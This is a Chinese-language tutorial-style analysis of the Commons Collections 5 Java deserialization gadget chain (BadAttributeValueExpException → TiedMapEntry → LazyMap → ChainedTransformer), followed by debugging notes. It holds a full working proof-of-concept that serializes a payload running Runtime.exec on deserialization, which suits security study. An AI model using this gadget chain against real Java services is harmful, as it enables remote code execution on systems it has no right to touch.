










## 简介
CC5 利用的还是CC1的链路，使用LazyMap，只要调用了LazyMap.get()，就可以触发ChainedTransformer，链式调用，那么在CC5中，在哪儿会调用这个get方法呢？
在[CC1 LazyMap 利用链](https://www.yuque.com/da-labs/secnotes/aobl1w)中，我们知道**动态代理对象调用任何一个方法时会调用handler中的invoke方法**，然而我们知道`sun.reflect.annotation.AnnotationInvocationHandler`，会发现实际上这个类就是一个InvocationHandlerAnnotationInvocationHandler类，如果将这个恶意对象用Proxy进行代理，那么在readObject的时候，只要调用任意方法，就会进入到AnnotationInvocationHandler#invoke方法中。
在CC5中这里引入了新的两个类，分别是**TiedMapEntry，BadAttributeValueExpException**
### TiedMapEntry
可以看到map，和key都是可控的，在调用getValue的时候，就直接调用get方法，实现LazyMap#get()





那么要在哪里调用这个getvalue函数呢，在`TiedMapEntry`里，我们可以看到该类为其实现了一个`toString()`方法



那么找到能调用`TiedMapEntry#toString()`方法就显得至关重要，接下来`BadAttributeValueExpException`类就会带来一片光明

### BadAttributeValueExpException
`BadAttributeValueExpexception` 在readObject的时候，如果能读这个valObj为`TiedMapEntry`的实例，那么是不是就是一条完美的链路？



在此处，我们可以看到`BadAttributeValueExpexception` 的构造函数只有一个值val，但是类型是Object，那么我们可以按如下构造，当其反序列化的时候，调用readObject()函数的时候，反序列化得到的valObj就是对应的`TiedMapEntry`实例

```java
// 创建一个实例
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
// 反射赋值
Field valfield = val.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(val,"TiedMapEntry实例对象");
```
## POC
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;


/*
@params
Test Env
jdk8u181
Commons Collection3.1
 */
public class TestCC5 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap,transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "1");
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val,entry);
        try{
            FileOutputStream fileOutputStream = new FileOutputStream("cc5.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(val);

            FileInputStream fileInputStream = new FileInputStream("cc5.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
### 0x1
第一部分为[CC1 LazyMap 利用链](https://www.yuque.com/da-labs/secnotes/aobl1w)前部分，也可以参考[CC1 分析](https://www.yuque.com/da-labs/secnotes/eru5qp)，这里只要调用了`LazyMap#get`，就会触发`ChainedTransformer.transform()`,进而对transformers链式调用

```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
    };
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap,transformerChain);
```
### 0x2
在简介中可以看到，`TiedMapEntry`实例化的`entry`需要赋值给`BadAttributeValueExpException@val`,当反序列化的时候，取到对象，则会调用`TiedMapEntry#toString`方法，进而调用`TiedMapEntry#get`方法，其中Map可控，就是反序列化得来的恶意的`TiedMapEntry`实例`lazymap`
```java
TiedMapEntry entry = new TiedMapEntry(lazyMap, "1");
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valfield = val.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(val,entry);
```
对应的调用链为
```
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```


## 调试
调试过程和LazyMap是一样的，我们在`LazyMap#get`处`factory.transform(key)`处打下断点来分析




可以看到利用链路为`BadAttributeValueExpException.readObject()`-> `TiedMapEntry.toString()`-> ` LazyMap.get()`->`ChainedTransformer.transform()`



这里就是常规链式调用了



> [!TIP]
>
> 注：在调试过程中，如果在`LazyMap#get`前的堆栈打上断点，就无法进入LazyMap.get()的if语句

在调试过程中，如果在`LazyMap.get()`之前的堆栈中打下断点，比如`BadAttributeValueExpException.readObject()`、`TiedMapEntry.toString()`、`TiedMapEntry.getValue()`处打上断点，是无法进入 `LazyMap.get()`if 判断语句
在这里可以看到，我圈起来的部分，这里的意思就是已经执行了，因为发生调用了，只不过debug无法进入



到这里我们直接看`LazyMap.get()`方法，这里断点一定要打在if处，不然是不能进入断点，可以看到，在if处，得到了map参数已经不是空，而是在序列化的时候已经赋的初值。可以通过比较没有在`LazyMap.get()`前的堆栈下断点的区别



图1 `LazyMap.get()`堆栈前下断点


图2 `LazyMap.get()`堆栈前无断点，这就是为什么我在调试部分我没有在其他函数处打断点，而是直接在`LazyMap#get()`处打断点。


